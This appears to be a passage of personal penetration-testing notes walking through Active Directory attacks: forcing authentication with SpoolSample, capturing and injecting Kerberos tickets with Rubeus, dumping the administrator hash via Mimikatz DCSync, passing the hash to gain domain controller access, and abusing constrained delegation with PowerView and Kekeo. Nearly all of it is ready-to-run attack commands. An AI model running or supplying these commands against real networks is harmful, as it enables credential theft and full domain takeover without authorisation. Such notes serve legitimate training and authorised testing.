 ```
.\SpoolSample.exe $DNS_COMPUTER_NAME $USER.$DNS_DOMAIN_NAME
```
A new ticket will pop up in Rubeus.
Copy the Base64 encoded ticket.  Paste in Notepad++, press CTRL+J to join all the lines together.  CRTL+H > enable Regular express.  Replace the spaces in the document with:
Find what: \s*
Replace with:
```
.\Rubeus.exe ptt /ticket:$BASE64_VALUE
```
```
.\Rubeus.exe triage
```
```
.\Rubeus.exe klist
```
```
Import-Module .\Invoke-Mimikatz.ps1
```
Dump lsa for administrator user:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:pentesting\administrator"'
```
Copy the NTLM hash value.
Pass the hash with mimikatz to escalate to administrator.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```
```
invoke-command -ComputerName $DNS_COMPUTER_NAME -ScriptBlock{whoami;hostname}
```
You should see you are Administrator of the dc host.
Enter a PSSession on that host:
```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME
```
#### 86 Constrained Delegation
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
[[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
Enumeration:
```
Get-DomainComputer -TrustedToAuth
```
Look for msds-allowedtodelegateto field.
Download Kekeo
https://github.com/gentilkiwi/kekeo/releases
```
.\kekeo.exe
```
```
. .\Invoke-Mimikatz.ps1
```
```
invoke-mimikatz
```
Find ntlm hash and copy value.  In video, he finds a user with a '$' at the end.
```
kekeo.exe tgt::ask /user:$USER /domain:DNS_DOMAIN_NAME /rc4:$HASH
```
$TICKET  == TGT Ticket kirbi file is found in kekeo directory.
```
```